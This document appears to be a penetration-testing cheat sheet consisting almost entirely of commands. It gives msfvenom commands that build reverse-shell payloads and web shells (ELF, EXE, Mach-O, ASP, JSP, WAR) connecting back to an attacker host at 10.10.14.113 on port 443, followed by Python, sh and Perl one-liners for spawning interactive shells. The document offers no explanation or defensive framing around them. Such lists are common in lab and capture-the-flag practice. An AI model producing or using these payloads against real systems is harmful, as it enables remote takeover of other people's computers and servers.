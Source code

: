 ### Payload Generation with MSFvenom

### Linux Reverse Shell Payload

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf > nameoffile.elf
```

### Windows Reverse Shell Payload

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f exe > nameoffile.exe
```

### MacOS Reverse Shell Payload

```bash
msfvenom -p osx/x86/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f macho > nameoffile.macho
```

### ASP Web Shell Payload

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.113 LPORT=443 -f asp > nameoffile.asp
```

### JSP Web Shell Payload

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f raw > nameoffile.jsp
```

### WAR Web Shell Payload

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f war > nameoffile.war
```

### Shell Spawning Techniques

### Python Interactive Shell

```bash
python -c 'import pty; pty.spawn("/bin/sh")'
```

### Basic Linux Shell

```bash
/bin/sh -i
```

### Perl Interactive Shell

```bash
perl -e 'exec "/bin/sh";'
```
